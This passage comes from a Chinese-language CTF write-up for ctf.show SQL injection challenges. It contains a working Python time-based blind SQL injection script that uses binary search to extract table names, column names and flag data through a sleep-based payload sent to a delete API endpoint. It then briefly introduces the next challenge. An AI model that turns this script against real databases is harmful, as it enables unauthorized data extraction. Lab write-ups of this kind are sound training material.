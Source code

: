 在接口处尝试sleep函数，可以正常执行。用时间盲注爆出flag

```python
import requests
import time
url='http://000bf014-0e7f-448b-ac7b-97668a2fa081.challenge.ctf.show/api/delete.php'
i=0
flag=''
while True:
    head=1
    tail=127
    i+=1
    while head<tail:
        mid=(head+tail)>>1
        payload={
        # 爆表 banlist,ctfshow_user,flag
        # "id":f"if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(0.05),1)"
        # 爆字段 id,flag,info
        # "id":f"if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),{i},1))>{mid},sleep(0.05),1)"
        # 爆金币
        "id":f"if(ascii(substr((select group_concat(id,flag,info) from flag),{i},1))>{mid},sleep(0.05),1)"
        }
        t1=time.time()
        r=requests.post(url,data=payload)
        t2=time.time()
        # print(t2-t1)#调试
        if t2-t1>0.5:
            head=mid+1
        else:
            tail=mid
    if head!=1:
        flag+=chr(head)
        print(flag)
    else:
        break
```

## web 242 file

还是在调试工具里看接口，会看到他通过post向`/api/dump.php`接口请求，把sql查询结果放入到`/dump/`路径下

![242](/medias/show-sql/242.png)